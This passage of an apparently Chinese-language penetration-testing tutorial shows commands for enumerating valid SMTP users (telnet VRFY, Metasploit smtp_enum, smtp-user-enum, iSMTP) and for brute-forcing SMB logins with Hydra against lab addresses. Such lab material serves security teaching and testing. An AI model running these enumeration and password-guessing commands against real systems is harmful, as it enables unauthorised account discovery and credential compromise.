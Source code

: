 #### telent

连接 25 端口：

> telnet 192.168.1.107 25

枚举用户，结果返回 550 则表示用户不存在，结果返回 250，251，252 表示用户是有效的：

> vrfy raj@mail.lab.ignite

![](https://mmbiz.qpic.cn/mmbiz_png/sGfPWsuKAff3KnOvggUV9p9V0SNLOLsVUgVJqlK9zIaiaUxj8QvPqB4MuMfyBibBzvUiaNfLP8bCgvx6dhXDuAusw/640?wx_fmt=png)

#### **Metasploit**

```
use auxiliary/scanner/smtp/smtp_enum
msf auxiliary(smtp_enum) > set rhosts 192.168.1.107
msf auxiliary(smtp_enum) > set rport 25
msf auxiliary(smtp_enum) > set USER_FILE /root/Desktop/user.txt
msf auxiliary(smtp_enum) > exploit
```

![](https://mmbiz.qpic.cn/mmbiz_png/sGfPWsuKAff3KnOvggUV9p9V0SNLOLsV7xScov4wcA2t3nmcyibCwlsAiay4a2twAiczHJibJUTibFdgj7AoVpombzA/640?wx_fmt=png)

#### smtp-user-enum

> **smtp-user-enum -M VRFY -U /root/Desktop/user.txt -t 192.168.1.107**

`-M` 指定使用哪种方式枚举，比如 EXPN, VRFY 或 RCPT

`-U` 指定用户名列表

`-t` 指定目标主机 IP

![](https://mmbiz.qpic.cn/mmbiz_png/sGfPWsuKAff3KnOvggUV9p9V0SNLOLsVEYdKaspD9qQxWhOyU10wXmlAy2biaGVnVw1yylbGzLqDxOhu5J1yWzA/640?wx_fmt=png)

指定邮箱后缀，用户名列表只需要名字即可，使用参数 `-D`:

> smtp-user-enum -M VRFY -D mail.ignite.lab -u raj -t 192.168.1.107

![](https://mmbiz.qpic.cn/mmbiz_png/sGfPWsuKAff3KnOvggUV9p9V0SNLOLsVUglCxeB7miaO1D1CMJMPX5U6nicZRx5wNnia84TYe2EoibsIp6eg5z0ic3g/640?wx_fmt=png)

#### iSMTP

> **ismtp -h 192.168.1.107:25 -e /root/Desktop/email.txt**

![](https://mmbiz.qpic.cn/mmbiz_png/sGfPWsuKAff3KnOvggUV9p9V0SNLOLsV1DC1oZatGpsjDHFQumJRmxVCWklakhwSxaHXia5ub7Epo1qsLTSRKpw/640?wx_fmt=png)

### SMB

#### Hydra

> **hydra –L/root/Desktop/user.txt -P /root/Desktop/pass.txt 192.168.1.118 smb**

![](https://mmbiz.qpic.cn/mmbiz_png/sGfPWsuKAff3KnOvggUV9p9V0SNLOLsVngnEGWrTtXMFz2CXTvoxKV9zd1BiaibmUqESGEPDQl8YBTmI6mAHY8Jw/640?wx_fmt=png)

